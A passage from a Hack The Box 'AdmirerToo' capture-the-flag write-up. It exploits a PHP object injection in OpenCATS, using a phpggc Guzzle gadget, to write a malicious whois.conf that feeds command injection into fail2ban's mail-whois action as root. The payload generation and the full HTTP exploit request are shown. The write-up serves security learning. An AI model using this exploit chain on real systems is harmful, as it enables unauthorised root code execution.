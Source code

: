 This strictly puts whois command output of banned IP address into email. So if attacker could **get control over whois output of his own IP** address - code execution could be achieved (with root, which is more fun of course).
> 

```bash
jennifer@admirertoo:/opt/opencats$ cat /etc/fail2ban/action.d/mail-whois.conf
...
actionban = printf %%b "Hi,\n
            The IP <ip> has just been banned by Fail2Ban after
            <failures> attempts against <name>.\n\n
            Here is more information about <ip> :\n
            `%(_whois_command)s`\n
            Regards,\n
            Fail2Ban"|mail -s "[Fail2Ban] <name>: banned <ip> from <fq-hostname>" <dest>
...
```

To exploit the vulnerability we must have control on whois output. Luckly **opencats** run with devel privileges and is vulnerable to PHP Object Injectionm leading to arbitrary file write. Devel has write privileges on `/usr/local/etc`, a secondary directory for configuration files, and so he can write here an arbitrary **whois.conf** that can be used to exploit the RCE in fail2ban

```bash
jennifer@admirertoo:/opt/opencats$ ls -ald /usr/local/etc
drwxrwxr-x 2 root devel 4096 Jul  7  2021 /usr/local/etc
```

Because the PHP deserialization writes json, we need to craft a specific POP gadget to write a clean conf file:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/B2R/AdmirerToo]
└─$ echo '}]|. [10.10.14.2]' > /tmp/payload

┌──(kali㉿kali)-[~/CTFs/HTB/B2R/AdmirerToo]
└─$ phpggc -u --fast-destruct Guzzle/FW1 /usr/local/etc/whois.conf /tmp/payload
a%3A2%3A%7Bi%3A7%3BO%3A31%3A%22GuzzleHttp%5CCookie%5CFileCookieJar%22%3A4%3A%7Bs%3A36%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00cookies%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A27%3A%22GuzzleHttp%5CCookie%5CSetCookie%22%3A1%3A%7Bs%3A33%3A%22%00GuzzleHttp%5CCookie%5CSetCookie%00data%22%3Ba%3A3%3A%7Bs%3A7%3A%22Expires%22%3Bi%3A1%3Bs%3A7%3A%22Discard%22%3Bb%3A0%3Bs%3A5%3A%22Value%22%3Bs%3A19%3A%22%7D%5D%7C.+%5B10.10.14.18%5D%0A%22%3B%7D%7D%7Ds%3A39%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00strictMode%22%3BN%3Bs%3A41%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00filename%22%3Bs%3A25%3A%22%2Fusr%2Flocal%2Fetc%2Fwhois.conf%22%3Bs%3A52%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00storeSessionCookies%22%3Bb%3A1%3B%7Di%3A7%3Bi%3A7%3B%7D
```

Exploited the PHP Object Injection and wrote the conf file:

```
GET /index.php?m=activity&parametersactivity%3AActivityDataGrid=a%3A2%3A%7Bi%3A7%3BO%3A31%3A%22GuzzleHttp%5CCookie%5CFileCookieJar%22%3A4%3A%7Bs%3A36%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00cookies%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A27%3A%22GuzzleHttp%5CCookie%5CSetCookie%22%3A1%3A%7Bs%3A33%3A%22%00GuzzleHttp%5CCookie%5CSetCookie%00data%22%3Ba%3A3%3A%7Bs%3A7%3A%22Expires%22%3Bi%3A1%3Bs%3A7%3A%22Discard%22%3Bb%3A0%3Bs%3A5%3A%22Value%22%3Bs%3A19%3A%22%7D%5D%7C.+%5B10.10.14.18%5D%0A%22%3B%7D%7D%7Ds%3A39%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00strictMode%22%3BN%3Bs%3A41%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00filename%22%3Bs%3A25%3A%22%2Fusr%2Flocal%2Fetc%2Fwhois.conf%22%3Bs%3A52%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00storeSessionCookies%22%3Bb%3A1%3B%7Di%3A7%3Bi%3A7%3B%7D HTTP/1.1
Host: 127.0.0.1:1337
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: CATS=rsiut3ufujk9etpjqesshnchfr
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
```